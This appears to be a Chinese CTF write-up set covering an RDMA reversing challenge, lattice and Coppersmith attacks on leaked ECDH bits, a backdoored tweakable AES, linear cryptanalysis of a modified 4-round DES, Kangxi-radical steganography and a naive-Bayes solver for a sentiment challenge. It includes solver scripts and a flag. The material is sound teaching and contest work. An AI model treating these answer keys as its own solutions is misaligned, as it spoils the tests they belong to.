本题的灵感来自 NSDI'22 上的一篇工作 [RedN](https://www.usenix.org/conference/nsdi22/presentation/reda)，这篇工作利用 Mellanox 的 ConnectX-5 支持的一些非标 op （主要是 Cross Channel 相关的），配合对 Send Queue 里的 Work Request 的自修改，愣是制造出了让网卡自己跑循环和条件跳转的功能。  
那么我们能不能在里面构造逻辑对 flag 做变换、比较呢？利用原作者放出的代码，很容易便可以实现这样的一个题目，最难的部分大概是装一个 MLNX\_OFED 4.x （5.x 以后切换到了跟上游同步的 rdma-core 实现，废弃了原本的 ibv*exp*\* 开头的大量 Mellanox 独有 verb）。

然而，这样的题目会非常坑爹：想要运行 / 调试题目 binary，必须手上得先有一块 mlx5 驱动支持的网卡。虽然我们实测 ConnectX-4 就可以，CX-4 在二手市场上目前的售价甚至只要不到两百块，这样的门槛出现在 CTF 题目里还是很不友好。因此题目实际上探索了另一个问题：只考虑 Linux 内核自带的 Soft RoCEv2 实现，如果不用这些非标 verb，还能实现类似的功能吗？能实现到什么程度？

结论是：能，但不太能。我们并没有等价于 `WAIT` 的能力，从而没法“正确”地控制顺序。

此外，由于时间仓促，题目没有静态连接 libibverbs （本意是避免选手对库的代码进行无意义的逆向，但这个目的也可以通过部分 strip 实现），但依赖了库内部的一些结构体的 layout（我们对最近的 7 个大版本进行了测试，这部分均没改），在题目刚放出时也没有对依赖的 rdma-core 版本进行说明，导致有选手使用较旧的 rdma-core 调试时遇到了不必要的麻烦。希望没有对选手们造成太大困扰。

# Crypto

## BabyDH 1

本题主要考查选手阅读论文能力、编程能力，要求选手对于格归约算法、Coppersmith方法有一定了解。

### 题目描述

题目中服务端模拟Alice与Bob两方进行了一次DH密钥交换，我们获得了他们的公钥。随后我们可以作为第三方与Alice进行一次DH交换，同时提供了一个额外的Oracle，可以泄露出我们与Alice协商出来的点x坐标和y坐标的低比特位数值。我们需要还原出该点的完整坐标值。

### 求解思路

根据题目中的信息，我们可以构造多项式$$f(x,y)=(My+y')^2-((Mx+x')^3+a(Mx+x')+b)$$，其中$x',y'$是泄露出来的数值，而$M=2^{211}$。

使用Coppersmith方法求解该多项式的小数根，预期解法是基于Jochemsz和May提出的[构造](https://link.springer.com/chapter/10.1007/11935230_18)进行调整。但事实上，已经有相关场景下的[研究](https://link.springer.com/chapter/10.1007/978-3-031-19685-0_6)发表，故只需要根据文中构造复现即可解出本题。

注意到本题的限时较短，考虑使用[flatter](https://github.com/keeganryan/flatter)工具完成快速格归约。实测发现设置参数本题中取m = 7，t = 1，在1核的Ubuntu虚拟机上耗时约25s有概率完成求解。

## BabyDH 2

本题主要考查选手阅读论文能力、编程能力，要求选手对于格归约算法、Coppersmith方法有一定了解。

### 题目描述

题目中服务端模拟Alice与Bob两方进行了一次DH密钥交换，随后我们可以作为第三方与Alice进行DH交换，同时提供了一个可以多次访问的额外Oracle，可以泄露出我们与Alice协商出来的点x坐标的低比特位数值。我们需要恢复出Alice与Bob协商出的共享密钥。

### 求解思路

本题中的场景相当于求解椭圆曲线隐藏数问题（[ECHNP](https://iacr.org/archive/asiacrypt2001/22480036.pdf)）。

选手需要编程复现发表于[2022年亚密会](https://eprint.iacr.org/2022/1239.pdf)的研究成果，注意原论文中考虑的是高比特泄露的场景，因此求解本题的格构造需要做出一定修改。

注意到本题的限时较短，考虑使用[flatter](https://github.com/keeganryan/flatter)工具完成快速格归约。实测发现设置参数n = 5，d = 3，t = 2，在1核的Ubuntu虚拟机上耗时约18s即可完成求解。

## Doctored Dobbertin v2

本题主要考查选手对可调分组密码分析方法的掌握程度以及阅读论文能力。

### 题目描述

题目中实现了一个10轮可调AES算法，即加密函数的输入除了明文以及密钥外，还有一个额外的输入称作tweak。

服务端随机生成密钥、明文、tweak，随后进行一次加密作为挑战，接着客户端可以选取明文、tweak获取相同密钥的加密结果，接着服务端公布挑战密文和所用到的tweak，客户端需要恢复明文，即可获取flag。

### 求解思路

通过比对，不难发现，与hacklu CTF 2023中的原题“Doctored Dobbertin”相比，本题中修改的常量包含S盒、P盒以及常数，而选择明文攻击的次数由7次减少为1次。常规的线性、差分等手段往往需要更多数据，因此考虑其他特殊方法。

如果搜索“可调分组密码后门”，可以发现[相关论文](https://eprint.iacr.org/2021/829.pdf)，而本题的攻击方法取自第5节。  
当然求解本题并非必须阅读原论文，有经验的选手会发现题目轮常数的修改显得非常可疑：每一轮加密中，会将常数以及tweak分别加到内部状态上，那是否存在一个tweak，其满足每一轮派生出来的轮tweak与轮常数相加后刚好抵消？答案是肯定的，经过分析，可以找出来该tweak数值为`0x846a51a2787d09d057b2bfa8a3481dae`。接着，我们只需要发送全0的明文，最后一次轮密钥加之前，我们知道内部密文的第1/3列必然相等，2/4列必然相等，而最后一轮的轮密钥恰好有一半为0，因此我们可以提取出8个非0密钥字节，进而可以确定主密钥中的8个字节，最后只需要枚举主密钥剩下的2字节即可。

## 又双叒叕

Author: Nano

tl;dr: Linear Cryptanalysis Method

熟读 [https://link.springer.com/content/pdf/10.1007/3-540-48285-7\_33.pdf](https://link.springer.com/content/pdf/10.1007/3-540-48285-7_33.pdf)

可以发现，题目使用了四轮 DES 作为加密算法，但所使用的 SBOX 不是 DES 规范。所以我们要手动找到一个可能的攻击路径。

我们把 PT 分成 PL 和 PR（前 32 位和后 32 位），同理将 CT 也分成 CL 和 CR。

可以发现 $PL\[19\]\\oplus PR\[9\]\\oplus CL\[9\]\\oplus CR\[19\]\\oplus F\_4\[9\]\\oplus K\_1\[14\]\\oplus K\_3\[14\]$ （设为 $C$）的分布并不是 fifth-fifth。

所以我们可以猜测 $K\_4\[0\\sim5\]$（会影响到 $F\_4\[9\]$ 的部分 Key）然后从 CR 逆推出 $F\_4\[9\]$。如果猜测错误，C 的分布会变成 fifth-fifth；如果猜测正确，则 C 的分布会出现一个很明显的不均匀。只要猜测正确，则可以从 $K\_4$ 恢复原来的 Key 的部分位。

实际我们会发现数据量貌似并不足以使用大数定律（才 80 组数据），可能有某些位最后也不知道是多少，但由于明密文可知，所以暴力枚举未知的位然后尝试 encrypt 也不是不行……

课后习题：如果只给 64 组数据呢？如果是六轮 DES 呢？

```plain
ROUND_NUM = 4
DATA_NUMBER = 80

IP = [57, 49, 55, 63, 8, 7, 50, 4, 3, 1, 23, 34, 28, 45, 30, 20, 59, 13, 42, 27, 43, 38, 41, 32, 35, 11, 17, 26, 53, 0, 36, 58,
      18, 14, 56, 60, 52, 9, 5, 2, 21, 40, 47, 19, 39, 12, 51, 46, 25, 48, 33, 62, 6, 24, 37, 15, 31, 61, 54, 10, 16, 22, 44, 29]
CP_1 = [11, 26, 56, 27, 28, 46, 30, 37, 23, 5, 21, 53, 33, 42, 15, 35, 17, 52, 24, 39, 20, 59, 9, 2, 41, 48, 49,
        32, 43, 62, 7, 13, 18, 40, 31, 36, 4, 10, 38, 60, 14, 22, 34, 8, 0, 54, 6, 50, 12, 55, 51, 45, 25, 16, 3, 47]
CP_2 = [53, 37, 42, 20, 7, 18, 46, 5, 23, 12, 11, 43, 45, 41, 40, 36, 21, 8, 22, 0, 33, 51, 3,
        17, 6, 1, 39, 54, 29, 30, 2, 44, 10, 25, 16, 47, 31, 27, 34, 32, 14, 13, 9, 50, 26, 24, 15, 19]
P = [0, 26, 10, 24, 13, 20, 19, 23, 5, 2, 29, 22, 31, 21, 30,
     12, 25, 11, 8, 9, 6, 17, 14, 28, 3, 16, 15, 27, 18, 1, 7, 4]
FP = [51, 48, 37, 61, 19, 59, 14, 3, 55, 43, 1, 63, 45, 62, 2, 20, 53, 36, 34, 41, 23, 40, 7, 24, 21, 60, 39, 27, 29, 42, 49,
      57, 9, 6, 18, 13, 15, 31, 30, 46, 11, 8, 16, 33, 47, 5, 10, 58, 25, 17, 52, 50, 35, 44, 0, 26, 38, 56, 32, 22, 28, 12, 54, 4]
rP = [P.index(i) for i in range(32)]
rFP = [FP.index(i) for i in range(64)]

E = [31, 0,  1,  2,  3,  4,
     3,  4,  5,  6,  7,  8,
     7,  8,  9,  10, 11, 12,
     11, 12, 13, 14, 15, 16,
     15, 16, 17, 18, 19, 20,
     19, 20, 21, 22, 23, 24,
     23, 24, 25, 26, 27, 28,
     27, 28, 29, 30, 31, 0,]

SHIFT = [1, 1, 2, 2, 2, 2, 2, 2, 1, 2, 2, 2, 2, 2, 2, 1]

S_BOX = [
    [
        [10, 7, 14, 8, 13, 4, 6, 9, 1, 0, 2, 12, 3, 5, 15, 11],
        [11, 0, 12, 1, 3, 7, 9, 6, 14, 8, 2, 13, 5, 4, 10, 15],
        [0, 6, 15, 12, 11, 9, 10, 4, 5, 8, 3, 14, 1, 2, 7, 13],
        [13, 4, 10, 14, 0, 8, 6, 1, 15, 12, 9, 5, 7, 11, 2, 3]
    ],
    [
        [8, 9, 3, 5, 6, 0, 2, 10, 11, 1, 15, 4, 13, 14, 7, 12],
        [14, 10, 13, 15, 9, 6, 7, 4, 11, 3, 0, 2, 12, 8, 1, 5],
        [15, 1, 12, 0, 2, 4, 5, 3, 14, 6, 7, 13, 10, 9, 11, 8],
        [12, 15, 13, 9, 7, 11, 3, 2, 5, 10, 8, 4, 0, 14, 1, 6]
    ],
    [
        [6, 11, 14, 9, 15, 0, 3, 7, 5, 4, 1, 2, 10, 13, 8, 12],
        [0, 14, 12, 7, 8, 3, 10, 1, 6, 13, 5, 4, 2, 9, 11, 15],
        [15, 5, 6, 4, 10, 12, 9, 8, 0, 7, 13, 14, 11, 1, 2, 3],
        [4, 15, 13, 6, 8, 5, 0, 9, 12, 7, 11, 14, 2, 1, 3, 10]
    ],
    [
        [15, 14, 9, 12, 4, 5, 7, 0, 2, 10, 11, 6, 1, 3, 8, 13],
        [13, 4, 12, 10, 1, 8, 0, 3, 14, 9, 6, 5, 11, 7, 2, 15],
        [14, 0, 15, 1, 6, 2, 13, 4, 12, 8, 9, 7, 5, 11, 10, 3],
        [2, 15, 14, 10, 7, 12, 4, 11, 1, 8, 0, 13, 6, 3, 9, 5]
    ],
    [
        [13, 1, 4, 8, 12, 3, 7, 0, 6, 14, 2, 10, 15, 11, 9, 5],
        [10, 3, 15, 2, 9, 4, 11, 8, 13, 7, 12, 1, 14, 0, 5, 6],
        [8, 15, 2, 9, 7, 12, 14, 13, 3, 10, 0, 6, 4, 1, 5, 11],
        [14, 2, 1, 10, 13, 9, 12, 15, 6, 3, 5, 11, 0, 7, 4, 8]
    ],
    [
        [5, 14, 7, 13, 10, 2, 15, 3, 1, 11, 6, 12, 4, 8, 9, 0],
        [9, 12, 13, 6, 14, 10, 7, 0, 11, 8, 1, 2, 5, 3, 4, 15],
        [2, 8, 1, 4, 9, 13, 3, 0, 7, 14, 6, 11, 10, 5, 12, 15],
        [15, 3, 2, 10, 12, 1, 0, 8, 6, 13, 4, 14, 9, 11, 7, 5]
    ],
    [
        [4, 10, 2, 3, 11, 9, 6, 13, 0, 8, 12, 5, 15, 7, 14, 1],
        [13, 5, 10, 0, 9, 8, 15, 1, 4, 6, 3, 2, 7, 14, 11, 12],
        [6, 10, 1, 0, 2, 4, 14, 11, 3, 5, 8, 12, 13, 7, 15, 9],
        [3, 5, 2, 9, 15, 0, 6, 8, 10, 7, 1, 12, 11, 13, 4, 14]
    ],
    [
        [4, 15, 10, 9, 6, 3, 5, 12, 14, 7, 1, 13, 11, 0, 2, 8],
        [13, 14, 6, 1, 0, 2, 5, 7, 10, 8, 3, 12, 9, 11, 4, 15],
        [5, 1, 3, 6, 12, 14, 7, 9, 2, 11, 15, 10, 8, 0, 13, 4],
        [6, 12, 0, 3, 7, 9, 1, 14, 5, 10, 13, 4, 8, 2, 15, 11]
    ]
]

T_BOX = []

for o in range(8):
    T_BOX.append({})
    for i in range(64):
        I = bin(i)[2:].zfill(6)
        row = int(I[0] + I[5], 2)
        col = int(I[1:5], 2)
        T_BOX[o][i] = S_BOX[o][row][col]


def bytes_to_bits(bytes_arr):
    ret = []
    for b in bytes_arr:
        for i in range(7, -1, -1):
            ret.append((b >> i) & 1)
    return ret


def xor(t1, t2):  # Apply a xor and return the resulting list
    return [x ^ y for x, y in zip(t1, t2)]


def keyschedule(key):
    round_keys = []
    key = [key[x] for x in CP_1]
    g, d = key[:28], key[28:]
    for i in range(ROUND_NUM):
        g = g[SHIFT[i]:] + g[:SHIFT[i]]
        d = d[SHIFT[i]:] + d[:SHIFT[i]]
        tmp = g + d
        round_keys.append([tmp[x] for x in CP_2])
    return round_keys


def substitute(R_expand):
    """
    Substitute bytes using SBOX
    """
    subblocks = [R_expand[k:k+6] for k in range(0, 48, 6)]
    ret = []
    for i in range(8):  # For all the sublists
        block = subblocks[i]
        # Get the row with the first and last bit
        row = int(str(block[0])+str(block[5]), 2)
        # Column is the 2,3,4,5th bits
        column = int(''.join([str(x) for x in block[1:][:-1]]), 2)
        # Take the value in the SBOX appropriated for the round (i)
        val = S_BOX[i][row][column]
        for j in range(3, -1, -1):
            ret.append((val >> j) & 1)
    return ret


key_idx = list(range(64))
key = ['.'] * 64

for shift in range(64):
    K = keyschedule(key_idx)
    key_idx = key_idx[1:] + key_idx[:1]
    file_pt = open(f"data/pt{shift}", "rb")
    file_ct = open(f"data/ct{shift}", "rb")

    PC = []
    for _ in range(DATA_NUMBER):
        pt = file_pt.read(8)
        ct = file_ct.read(8)
        pt = bytes_to_bits(pt)
        ct = bytes_to_bits(ct)
        pt = [pt[x] for x in IP]
        ct = [ct[x] for x in rFP]
        PC.append((pt[:32], pt[32:], ct[:32], ct[32:]))

    status = []
    for k in range(1 << 6):
        _k = list(map(int, f'{k:06b}')) + [-1] * 42

        count = 0
        for PL, PR, CL, CR in PC:
            R_expand = [CR[x] for x in E]
            tmp = [max(0, x) for x in _k]
            tmp = xor(tmp, R_expand)
            tmp = substitute(tmp)
            tmp = [tmp[x] for x in P]
            count += PR[9] ^ CL[9] ^ PL[19] ^ CR[19] ^ tmp[9]
        _k_str = ['.'] * 64
        for i in range(48):
            if _k[i] >= 0:
                _k_str[K[-1][i]] = str(_k[i])
        _k_str = ''.join(_k_str)
        status.append((min(count, len(PC) - count), _k_str))

    status.sort()
    if status[0][0] > 22:
        if len(status) > 1 and status[1][0] - status[0][0] < 4:
            continue
    if len(status) > 1 and status[1][0] - status[0][0] < 3:
        continue

    key = [y if x == '.' else x for x, y in zip(key, status[0][1])]
    print(''.join(key))
```

# Misc

## 来签个到吧

钉钉群公告签到

## 字

Author: Shinonome Lab

tl;dr: 康熙部首 + 区位码

这个题目主要考察选手对于新型隐写方式的分析能力和破译能力。题目将 flag 转义成汉字，然后转换成 7+7bits 的区位码，最后将 01 序列以类似 Bacon's cipher 的加密方式隐藏在原文中。

### 期望的解题思路

首先注意到部分字体被替换成了康熙部首，但相同的文字有的替换有的却不替换。因为要做隐写的话势必不能影响原文，所以猜想是否是先提取出有对应康熙部首的字，然后根据输入有选择性地进行替换，这样输入的信息只需要是 01 格式就可以了。

康熙部首对应关系可见：[https://www.unicode.org/Public/13.0.0/ucd/EquivalentUnifiedIdeograph.txt](https://www.unicode.org/Public/13.0.0/ucd/EquivalentUnifiedIdeograph.txt)

提取之后总共有 332 bits，容易观察到最后一长串 0（疑似是冗余），以及一个长度为 7 的 1 串（疑似是结束标记），侧面证实先前思路的可行性。

观察 0 和 1 的出现频率，确定 1111111 的确是结束标记，且在结束标记前的 bits 数量为 308，能够被 7 整除，所以将 01 串按照 7bits 划分。

到这里之后可以尝试不同的解读方式，例如转成 ASCII 之类的（printable ASCII 可以丢弃最高位），或者结合题目背景去尝试一些汉字编码（例如 GB2312），最后可以发现使用 **区位码** 能够将上述数据解读成可读的信息。（出题人：这里因为觉得汉字编码也就这几种可能，所以就没想着留一些 information）

解读出来是「阿里云夺旗赛左花括二六二六下划五五五四右花括」，也就是 `aliyunctf{2626_5554}`。

一个小彩蛋：区见码 2626 和 5554 对应的汉字为「汉」和「字」。

exp 如下：

```plain
unicode = open('unicode.txt', 'r').readlines()
hanzi = []
kangxi = []
for line in unicode:
    line = list(filter(lambda x: x, line.split()))
    hanzi.append(chr(int(line[2], 16)))
    kangxi.append(chr(int(line[0], 16)))

enc = open('enc.txt', 'r').read()

# 检查每个字是否有对应的康熙部首，如果有的话：
#   如果是康熙部首则为 1
#   如果不是康熙部首则为 0
binary = []
for ch in enc:
    if ch in hanzi:
        binary.append('0')
    elif ch in kangxi:
        binary.append('1')
binary = ''.join(binary)[:315-7]  # 排除掉最后的结束标记和冗余

# 按照区位码的规则转成 GB2312
gb = []
for i in range(0, len(binary), 7):
    gb.append(f'{int(binary[i:i+7], 2) + 0xA0:02X}')
gb = ''.join(gb)

# 读取 GB2312
msg = bytes.fromhex(gb).decode('GB2312')
print(msg)
```

## 帕鲁情绪管理

本题由于样本集过小（总数据量1.5w左右）。选手也可以通过大量轮询方法获取所有的数据集进行直接枚举，不过这种方法将会耗费大量时间，不推荐。

如果是随机猜测语句情绪的话，则可能性在pow(1/3, 15) ≈ 0.00000006，几乎不可能做到。

推荐的做法如下：

1.  准备数据集：将提供的40条数据按照格式进行解析，提取出 sentiment 和 text。将其划分为训练集。
2.  特征提取：对文本进行特征提取，一种常用的方法是使用词袋模型。将文本转换为向量表示，统计文本中每个词语在该文本中出现的次数或使用其他统计特征表示。
3.  计算类别的先验概率：根据训练集中的 sentiment，统计每个类别的先验概率。
4.  计算特征的条件概率：对于每个特征（词语），计算在给定类别下的条件概率。可以使用词频或其他统计方法来估计条件概率。
5.  进行分类预测：对于测试集中的每个样本，根据贝叶斯定理和条件独立性假设计算后验概率，并选择具有最高后验概率的类别作为预测结果。
6.  错误重试：当预测失败后，旧的数据集仍作为下一次连接的基础训练集，这样即可获取更多的样本数量。

最终的wp如下：

```plain
import re
from sklearn.feature_extraction.text import CountVectorizer
from sklearn.naive_bayes import MultinomialNB
from hashlib import sha256
from pwn import *
DEBUG = False

host, port = 'xxx.xxx.xxx.xxx', 9999

def pass_pow():
    log_level = context.log_level
    context.log_level = 'critical'
    # print('pass pow')
    if DEBUG:
        io.sendlineafter(b'answer: ', b'debugs')
        return
    info = io.recvline()
    answer_size = info.count(b'?')
    # sha256(("k22pzjh2d5m7yjphqpdm1xaisnc" + "?????").encode()) = 0a867d05f8b83e20fcff89aa46ccd435967e6639bdcd4b3e7e88fc6376343d72\n
    ques = info[9: 41 - answer_size]
    hashed = info[61 : -1].decode()
    # print(ques, hashed, answer_size)
    crack = lambda x: sha256(ques+x.encode()).hexdigest() == hashed
    result = iters.bruteforce(crack, 'abcdefghijklmnopqrstuvwxyz0123456789', length = answer_size, method='fixed')
    io.sendlineafter(b'answer: ', result.encode())
    context.log_level = log_level
    return 

def get_training(train_size = 40):
    log_level = context.log_level
    context.log_level = 'critical'
    _sentiments = []
    _texts = []
    io.sendlineafter(b'Do you want to training? (y/n) ', b'y', timeout = 1)
    io.recvuntil(b'sentiment: ')
    for _ in range(train_size - 1):
        info = io.recvuntil(b'\nsentiment: ', drop = True, timeout = 1).decode()
        result = re.findall(r'(.+?), text: (.+)', info)
        if not result:
            continue
        sentiment, text = result[0]
        _sentiments.append(sentiment)
        _texts.append(text)
        # print(_, len(_texts), text)
    info = io.recvuntil(b'\nNow', drop = True, timeout = 1).decode()
    result = re.findall(r'(.+?), text: (.+)', info)
    if result:
        sentiment, text = result[0]
        _sentiments.append(sentiment)
        _texts.append(text)
    context.log_level = log_level
    return _sentiments, _texts

sentiments = []
texts = []

context.log_level = 'critical'
io = remote(host, port)

pass_pow()

_sentiments, _texts = get_training()
sentiments += _sentiments
texts += _texts
print('data nums', len(sentiments), len(texts))
# pause()
print('run this..')
# 特征提取
vectorizer = CountVectorizer()
X = vectorizer.fit_transform(texts)

# 训练朴素贝叶斯分类器
classifier = MultinomialNB()
classifier.fit(X, sentiments)

# 进行预测
print('doing')
io.sendlineafter(b'Do you want to start challenge? (y/n) ', b'y', timeout = 1)

_round = 1
while True:
    io.recvuntil(b', text: ', timeout = 1)
    test_text = io.recvline(timeout = 1).strip().decode()
    test_vector = vectorizer.transform([test_text])
    prediction = classifier.predict(test_vector)[0]

    print(f"forecast: {_round} {prediction} {test_text in texts}")
    io.sendlineafter(b'Please input the answer: ', prediction.encode(), timeout = 1)
    result = io.recvuntil(b' ', drop=True, timeout = 1)
    if b'Congratulations!' == result:
        context.log_level = 'debug'
        io.unrecv(result)
        break
    elif result == b'Round':
        _round += 1
        continue
    io.close()
    io = remote(host, port)
    pass_pow()
    _sentiments, _texts = get_training()
    sentiments += _sentiments
    texts += _texts
    print('data nums', len(sentiments), len(texts))

    # 重新训练
    vectorizer = CountVectorizer()
    X = vectorizer.fit_transform(texts)
    classifier = MultinomialNB()
    classifier.fit(X, sentiments)
    _round = 0
    io.sendlineafter(b'Do you want to start challenge? (y/n) ', b'y', timeout = 1)
result = io.recvuntil(b'}')
print(result)
io.close()
```